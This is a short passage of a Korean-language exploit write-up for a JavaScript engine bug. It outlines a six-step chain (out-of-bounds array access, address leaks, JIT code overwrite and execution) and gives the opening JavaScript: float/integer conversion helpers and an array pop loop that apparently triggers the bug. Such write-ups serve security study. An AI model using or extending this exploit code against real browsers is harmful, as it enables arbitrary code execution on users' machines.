 

익스플로잇 과정은 다음과 같다.

1. Create two arrays

2. OOB trigger (First Array)

3. next Array addr leak

4. JIT code address leak

5. JIT code overwrite

6. JIT code execute (function call)



1~2번은 생략하고 3번부터 하겠다. 1~2번에 해당하는 코드는 다음과 같다.

```javascript
function dtoi(data)
{
	var buffer = new ArrayBuffer(8);
	var f = new Float64Array(buffer);
	var bytes = Uint8Array(buffer, 0, 8);

	f[0] = data;
	
	res = "";
	for (var i = 0; i < bytes.length; i++)
		res += ('0' + bytes[bytes.length - 1 - i].toString(16)).substr(-2);

	return parseInt(res, 16);
}

function itod(data)
{
	var buffer = new ArrayBuffer(8);
	var f = new Float64Array(buffer);
	var bytes = Uint8Array(buffer);

	var res = [];
	var hexed = ('0000000000000000' + data.toString(16)).substr(-16);
	for (var i = 0; i < 16; i+=2)
		res.push(parseInt(hexed.substr(i, 2), 16));
	
	bytes.set(res.reverse());
	return f[0];	
}

function hex(data)
{
	return '0x' + data.toString(16);
}
	
a = [1, 2]
b = [3, 4]

for (var i = 0; i < 3; i++)
	a.pop()
```
